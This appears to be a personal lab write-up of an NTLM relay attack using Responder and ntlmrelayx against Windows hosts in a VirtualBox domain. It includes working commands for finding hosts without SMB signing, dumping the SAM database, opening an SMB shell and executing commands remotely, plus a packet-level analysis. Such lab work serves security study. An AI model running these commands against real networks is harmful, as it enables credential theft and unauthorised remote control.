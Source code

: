 Setup:
- Run both windows workstations (THEPUNISHER, SPIDERMAN)
- The user "frank" on THEPUNISHER is also an administrator on SPIDERMAN
- The DC has to run, otherwise we will not be able to logon on SPIDERMAN, as the machine will fail to verify the NTLM hash on the DC. 
---
# Attack outline

**Exploitation steps:**
- Scan the network for hosts
- Identify hosts with SMB signing not required (nmap script: `nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>`)
- Config (disable SMB, HTTP) and run *responder*
- Run *ntlmrelayx* (with the targets identified in point 1)

Responder will pass hashes to ntlmrelayx which will forward them to the target machines.
If the hashes correspond to a user that is present on a target machine (and hopefully be a local admin on that machine) we can run commands on the machine as that user. 

## Scan the network for hosts

Nmap scan shows only our machine (10.0.0.11):
![[Pasted image 20240312165922.png]]
Note: Windows firewall drops ICMP requests.

Scan the network with *arp-scan*:
![[Pasted image 20240312165838.png]]
Now we see the other machines on the network.

>[!Note]
>In the following commands we run nmap with the argument `-Pn`, otherwise nmap will only scan hosts that it was able to enumerate, which didn't work as we saw in the first network scan above (because the windows firewall drops ICMP requests).

Now we can run nmap to see what OS the hosts are running:
```bash
sudo nmap -Pn -O 10.0.0.18-20
```
Results:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 17:02 CET
Nmap scan report for 10.0.0.18
Host is up (0.00033s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
MAC Address: 08:00:27:2F:48:EE (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2016|10 (94%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2022 (94%), Microsoft Windows 11 21H2 (90%), Microsoft Windows Server 2016 (89%), Microsoft Windows 10 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Nmap scan report for 10.0.0.19
Host is up (0.00036s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:67:F2:E4 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (90%)
OS CPE: cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows 10 1909 (90%), Microsoft Windows Server 2019 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Nmap scan report for 10.0.0.20
Host is up (0.00047s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5357/tcp open  wsdapi
MAC Address: 08:00:27:5C:37:DD (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|XP (91%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_xp::sp2
Aggressive OS guesses: Microsoft Windows Server 2019 (91%), Microsoft Windows 10 1909 (90%), Microsoft Windows XP SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 12.74 seconds
```

10.0.0.18 is probably the windows server (looking at the open ports)
## Identify hosts with SMB signing not required

Nmap SMB enum script:
```bash
nmap -Pn --script=smb2-security-mode.nse -p 445 10.0.0.18-20
```

From the output we can see that the windows server (10.0.0.18) requires SMB message signing, while the 2 windows workstations (10.0.0.19, 10.0.0.20) do not:
![[Pasted image 20240312171229.png]]
## Config (disable SMB, HTTP) and run responder

Create a *targets.txt* file which contains the IP addresses of the 2 workstations (with SMB signing not required):
```txt
10.0.0.19
10.0.0.20
```

Edit the responder config file */etc/responder/Responder.conf* and switch SMB and HTTP off:
![[Pasted image 20240312172332.png]]

Run responder:
```bash
sudo responder -v -I eth1 -dw
```
SMB and HTTP should now be turned off:
![[Pasted image 20240312172511.png]]
## Run ntlmrelayx

```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```
Args:
`-tf`: targetfile: file that contains targets by hostname or full URL, one per line
`-smb2support`: SMB2 Support

Output:
![[Pasted image 20240312173211.png]]

When we now access our attacker machine in network tab on THEPUNISHER:
![[Pasted image 20240312173511.png]]

We can see that ntlmrelay was able to relay the NTLM hash of *frank* to authenticate us on SPIDERMAN. Since frank is a local administrator on SPIDERMAN, the SAM database was dumped:
![[Pasted image 20240312173658.png]]

### Get a shell

We can also use the argument `-i` (for interactive mode) to gain a shell:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
`-i`: Launch an smbclient, LDAP console or SQL shell instead of executing a command after a successful relay. This console will listen locally on a TCP port and can be reached with for example netcat.

From the output we see that an SBM client shell is listening on our local machine 127.0.0.1 on port 11000:
![[Pasted image 20240312174319.png]]

Connecting to the port with netcat we have an SMB shell:
![[Pasted image 20240312174525.png]]

With the SMB shell we could for example enumerate shares:
![[Pasted image 20240312174802.png]]

### Execute a command

We can also use the argument `-c` to execute a command:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
`-c`: Command to execute on target system (for SMB and RPC).

From the output we see that we authenticated and executed "whoami" as a system administrator:
![[Pasted image 20240312175157.png]]

Note: We could use a command to persist access to the machine, for example by creating an administrative user account on the machine credentials that we supply.


# Optional: Capture LLMNR/NBNS/MDNS packages with wireshark

In order to see the multicast NS resolution via LLMNR/NBNS/MDNS, launch wireshark on THEPUNISHER.

In the network try to access a domain name that doesn't exist, in our case just the random string "piou":
![[Pasted image 20240313105621.png]]

In wireshark we captured the following network traffic:
![[Pasted image 20240313105729.png]]
### DNS

**Packets 1, 2:**
DNS resolution on the DC-DNS server fails

### NBNS

**Packet 3:**
NBNS query on broadcast address (10.0.0.255)
**Packet 6:**
NBNS query response from our attacker machine (10.0.0.11), by responder

### MDNS

**Packets 4, 5:**
MDNS query (IPv4, IPv6)
**Packets 9, 11:**
MDNS query response (IPv4, IPv6)

### LLMNR

**Packets 7, 8:**
LLMNR query (IPv4, IPv6)
**Packets 10, 12:**
LLMNR query response (IPv4, IPv6)

### SMB

**Packets 28+:**
THEPUNISHER (10.0.0.19) talks SMB with our attacker machine (10.0.0.11)
In packet 30 the NTLM hash is send to us.